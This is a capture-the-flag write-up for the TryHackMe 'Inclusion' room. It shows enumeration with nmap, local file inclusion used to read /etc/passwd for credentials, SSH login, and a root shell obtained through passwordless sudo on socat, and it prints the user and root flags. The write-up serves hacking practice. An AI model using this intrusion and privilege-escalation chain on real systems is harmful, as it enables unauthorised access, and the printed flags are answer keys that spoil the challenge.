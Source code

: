 # Inclusion

A beginner level LFI challenge

Room URL: https://tryhackme.com/room/inclusion

---

# Task 1

1. Deploy the machine and start enumerating

It seems there's two open ports

```
Nmap scan report for 10.10.233.27
Host is up (0.080s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

It seems the webserver is hosting some PHP script that has a GET parameter of
`name`:
```
http://10.10.233.27/article?name=lfiattack
http://10.10.233.27/article?name=hacking
http://10.10.233.27/article?name=rfiattack
```

The `lfihcaking` and `rfihacking` pages actually give some good tips on what you
can try.

We've found `/etc/passwd` by using LFI and it seems it has credentials commented
out in there. Let's use those to enter the box.

No answer needed.

# Task 2

1. user flag

```bash
$ ssh falconfeast@10.10.233.27
falconfeast@10.10.233.27's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-74-generic x86_64)
Last login: Thu Jan 23 18:41:39 2020 from 192.168.1.107
falconfeast@inclusion:~$ ls
articles  user.txt
falconfeast@inclusion:~$ cat user.txt
60989655118397345799
```


```
60989655118397345799
```

2. root flag

`sudo -l` shows we can run `/usr/bin/socat` as root without password

```bash
falconfeast@inclusion:~$ sudo -l
Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

[gtfobins](https://gtfobins.github.io/gtfobins/socat/) has great examples on how
we can use `socat` to escalate privileges.

```
falconfeast@inclusion:~$ sudo /usr/bin/socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```

Now that we have root we only need to extract the root flag.

```bash
ls /root
root.txt
cat /root/root.txt
42964104845495153909
```

```
42964104845495153909
```

